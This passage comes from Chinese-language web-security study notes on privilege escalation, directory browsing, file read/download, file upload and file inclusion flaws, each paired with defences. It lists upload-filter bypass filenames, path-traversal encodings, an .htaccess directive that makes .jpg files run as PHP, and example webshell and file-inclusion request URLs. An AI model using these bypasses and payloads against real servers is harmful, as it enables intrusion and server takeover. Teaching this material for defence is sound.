- **篡改资源ID**：这是最基础、最常见的方式。攻击者会抓取请求包，然后修改其中的资源标识符，如 `user_id=1001` 改为 `user_id=1002`，或 `order_id=123` 改为 `order_id=124`，以此尝试访问他人的数据。
- **直接访问未授权URL**：如果系统仅在前端隐藏了管理入口，但后端未做权限校验，攻击者可以直接在浏览器中输入管理员功能的URL（如 `/admin/panel`）进行访问。
- **越权调用API接口**：攻击者通过分析前端代码或抓包，发现并直接调用本应由高权限用户调用的API接口。
- **盗取Cookie 中的Session id**：通过XSS方案，盗取用户Session id，调用用户的权限。


防御越权漏洞的核心原则是：**永远不要信任客户端发来的任何数据，所有权限校验都必须在服务端完成**。

- **服务端统一权限校验（根本）**：这是最根本的解决方案。需对所有业务接口实施强制性的服务端权限检查，不仅要校验用户角色，还必须校验其操作的目标资源是否属于该用户。建议使用基于角色的访问控制（RBAC）模型，构建统一的权限管理中间件。基于资源属性的访问控制（ABAC）模型也可以
- **遵循最小权限原则**：只授予用户完成工作所必需的最小权限，避免权限过大。
- **使用不可预测的资源标识符**：避免使用自增ID等可遍历的标识符，应使用UUID等无法被轻易猜解的字符串。
- **全面的安全测试**：定期进行渗透测试和代码审计，重点排查所有涉及资源ID或不同权限接口的代码。
- **Session id 绑定客户端指纹**：在生成Session时，同时记录该用户的 **IP段** 和 **User-Agent（用户代理，如浏览器版本）**，即使攻击者通过某种极端巧合拿到了一个合法的Session ID，他如果用自己的浏览器去访问，服务端检测到 `User-Agent` 或IP与Session绑定记录不符，会强制要求二次验证（如短信验证）或直接销毁会话。

# 9 文件漏洞

## 9.1 目录浏览(目录遍历)漏洞

目录浏览漏洞是由于网站存在配置缺陷，导致网站目录可以被任意浏览，这会导致网站很多隐私文件与目录泄露，比如数据库备份文件、配置文件等，攻击者利用该信息可以为进一步入侵网站做准备。

## 9.2 任意文件读取/下载漏洞

他不仅会泄露网站的目录结构，而且攻击者可以直接获得网站文件的内容。

**常见利用手法**

- **路径遍历**：使用`../`（Linux）或`..\`（Windows）跳出限制目录。
- **编码绕过**：URL编码（如`%2e%2e%2f`）、UTF-8编码、双写（`....//`）。
- **绝对路径读取**：直接指定完整路径（如`C:\Windows\system32\cmd.exe`）。

## 9.3 文件上传

在 Web 安全中，**文件上传漏洞**是指应用程序允许用户上传文件（如头像、附件、图片等），但在处理上传文件时，没有对文件的类型、内容、大小、存储位置、访问权限等进行严格校验，导致攻击者能够上传恶意文件，并在服务器端被解析、执行或产生其他安全危害。

核心风险：一旦恶意文件被上传并访问，可能导致**远程代码执行、服务器被控制、存储型 XSS、文件覆盖、路径穿越、拒绝服务**等后果。

文件上传漏洞的核心在于，攻击者不仅能上传，还能**让这个文件被服务器执行或被其他用户访问**，从而触发恶意代码。

文件上传漏洞的完整利用链通常是：

1. **上传恶意文件**（绕过校验）
2. **定位文件路径**（通过响应或猜测）
3. **触发执行或访问**（直接请求、包含、解析漏洞、诱导用户等）

### 一般攻击方式

#### 上传 Web 脚本木马（Webshell）

直接上传可执行脚本文件，如 `.php`、`.jsp`、`.asp`、`.aspx` 等。访问该文件后，服务器会执行其中的恶意代码，攻击者即可远程执行命令、管理文件、操作数据库等。

为绕过只允许图片的限制，攻击者会尝试：

- 修改扩展名大小写，如 `.Php`、`.pHp`
- 使用双扩展名，如 `.php.jpg`、`.jpg.php`
- 在文件名末尾添加空格、点号、特殊字符，如 `shell.php.`、`shell.php`
- 利用 Windows 特性，如 `shell.php::$DATA`
- 使用历史漏洞中的 `%00` 截断绕过
- 使用服务器可执行但黑名单未覆盖的扩展名，如 `.phtml`、`.php5`、`.php3`、`.jspx` 等
- 伪造 `Content-Type` 为 `image/jpeg`、`image/png` 等

#### 图片马 + 文件包含/解析漏洞

将恶意脚本代码插入图片文件的 EXIF 信息、文件尾部或注释中，使其看起来是正常图片。如果服务器存在本地文件包含漏洞或解析漏洞，攻击者可通过包含该“图片”执行其中的恶意代码。

#### 上传配置文件改变解析规则

上传 `.htaccess`（Apache）、`web.config`（IIS）、`.user.ini`（PHP）等配置文件，修改目录的解析规则。例如，让服务器将 `.jpg` 文件当作 PHP 脚本执行，从而使普通图片文件成为 WebShell。

#### 上传恶意前端文件

上传包含恶意脚本的 SVG、HTML、JavaScript、PDF 等文件。当其他用户或管理员访问这些文件时，可能触发**存储型 XSS**，导致会话劫持、钓鱼、信息窃取等。

#### 压缩包解压路径穿越

上传 ZIP、TAR 等压缩包，并在压缩包内文件名中使用 `../` 路径。如果服务器解压时未正确处理，可能将文件解压到任意目录，覆盖关键文件或写入恶意脚本。

#### 文件覆盖攻击

上传与服务器现有文件同名的文件，覆盖头像、配置文件、源码等。结合路径穿越，攻击者可以控制写入路径，扩大影响范围。

#### 利用服务器解析漏洞

某些服务器存在历史解析缺陷，例如：

- Apache 多后缀解析：`file.php.jpg` 可能被当作 PHP 执行
- IIS 分号解析：`file.asp;.jpg` 可能被当作 ASP 执行
- Nginx 配置不当：`file.jpg/xx.php` 可能被转发到 PHP 解析

这些漏洞会让看似安全的扩展名文件最终被当成脚本执行。

#### 拒绝服务（DoS）

上传超大文件或大量文件，消耗服务器磁盘空间、带宽或 CPU 资源。例如，某些图片处理功能在遇到超大图片时可能造成资源耗尽。

#### 恶意文件分发

上传病毒、木马、钓鱼页面等文件，利用服务器作为分发平台，攻击其他用户，或借助服务器 IP 信誉进行钓鱼活动。

### 恶意文件怎么被执行

1. 攻击者会主动访问上传的脚本文件

   - 最常见的情况：攻击者上传一个 PHP Webshell（如 `shell.php`），然后直接通过浏览器访问这个文件的 URL：`http://target.com/uploads/shell.php?cmd=whoami`，如果服务器配置了 PHP 解析，且上传目录允许执行脚本，那么这个 PHP 文件就会被服务器解释执行，攻击者就能远程执行命令。
   - **所以不是“没人执行”，而是攻击者自己就是那个“执行者”。** 他上传文件的目的，就是为了之后通过 HTTP 请求去触发它。

2. 利用文件包含漏洞间接执行

   - 有时服务器对上传目录做了限制，不允许直接访问或执行脚本，但存在**本地文件包含（LFI）漏洞**。攻击者可以上传一个“图片马”——一个看起来是图片、但内部包含 PHP 代码的文件，然后通过包含漏洞让服务器去包含这个文件：`http://target.com/index.php?page=uploads/shell.jpg`
   - 服务器在包含该文件时，会将其中的 PHP 代码当作脚本执行，从而绕过“不允许直接执行”的限制。

3. 利用服务器解析漏洞“被动执行”

   - 某些服务器或配置存在解析缺陷，使得**看似安全的文件也会被当作脚本执行**。攻击者上传一个扩展名为 `.jpg` 的文件，但利用解析漏洞，服务器仍然会以 PHP 方式处理它。例如：
     - **Apache 多后缀解析**：`shell.php.jpg` 可能被当作 PHP 执行。
     - **IIS 分号解析**：`shell.asp;.jpg` 可能被当作 ASP 执行。
     - **Nginx 配置不当**：`shell.jpg/xxx.php` 可能被转发给 PHP 解析。

   - 这种情况下，攻击者只需上传文件，然后访问对应的 URL，服务器就会“自动”按照脚本方式解析并执行，无需攻击者额外操作。

4. 上传配置文件改变解析规则

   - 攻击者可以上传 `.htaccess`（Apache）、`.user.ini`（PHP）或 `web.config`（IIS）等配置文件，**主动修改服务器对该目录的解析规则**。例如：`AddType application/x-httpd-php .jpg`
   - 这条指令会让服务器把 `.jpg` 文件当作 PHP 脚本执行。攻击者上传该配置文件后，再上传一个包含恶意代码的 `.jpg` 文件，访问它就会被执行。

5. 不需要服务器执行脚本的危害：存储型 XSS

   - 即使服务器不执行上传的脚本，恶意文件也可能在**其他用户的浏览器中**执行。例如：
     - 上传一个包含恶意 JavaScript 的 `.html` 或 `.svg` 文件。
     - 当其他用户（如管理员）访问该文件的链接时，浏览器会解析并执行其中的脚本，导致会话劫持、钓鱼等。
   - 攻击者会通过社会工程学或诱导链接，让受害者主动访问这个文件，此时“执行”发生在受害者浏览器端。

6. 文件覆盖与路径穿越：不执行代码也能造成破坏

   - **文件覆盖**：如果上传的文件名与服务器现有文件重名（如覆盖头像、配置文件），可能导致功能异常、权限绕过，甚至替换关键程序文件。
   - **路径穿越**：上传 ZIP 压缩包，内部文件名包含 `../../`，解压时可能将文件写入任意目录，例如覆盖 `index.php`，从而篡改网站内容。
   - 这类攻击不一定需要执行脚本，但同样能造成严重危害。

### 防御思路

- 使用**白名单**限制允许的扩展名，而非黑名单
- 在服务端同时校验文件扩展名、`Content-Type` 和文件头内容
- 对上传文件进行**重命名**，使用随机文件名，避免使用用户提供的文件名和路径
- 将上传目录设置为**不可执行脚本**，与主应用隔离，最好使用独立域名或 CDN
- 限制文件大小、上传数量、文件类型
- 对图片进行重编码，去除可能嵌入的恶意代码
- 及时更新服务器组件，修复已知解析漏洞
- 对上传文件进行杀毒扫描或沙箱检测
- 遵循最小权限原则运行 Web 服务，禁止上传目录写入配置文件


## 9.4 文件包含

**文件包含漏洞**是指 Web 应用程序在包含文件时，未对用户可控的输入（如文件名、路径）进行严格过滤（“包含的这个文件”中，有用户可控的路径或文件名，或者其他输入），导致攻击者可以控制被包含的文件，从而读取敏感文件、执行任意代码或造成其他危害。

**文件包含漏洞的根源是：包含的文件路径或名称用户可控**，而不是“包含文件本身有用户输入”。

- **“包含文件”** 是指被 `include`/`require` 等语句加载的文件，是正常的编程机制。
- **漏洞** 在于包含的文件路径如果由用户输入控制，攻击者可以改变它，让服务器包含任意文件。
- **攻击效果** 包括读取敏感文件、执行任意代码（通过包含日志、上传文件、远程文件等）。
- 你说的“文件中的部分内容会采用用户可控的输入，然后再利用文件执行”，是攻击者用来制造恶意“包含文件”的手段之一。


# 术语

1. WAF：Web Application Firewall，工作在应用层的防火墙，主要对web请求/响应进行防护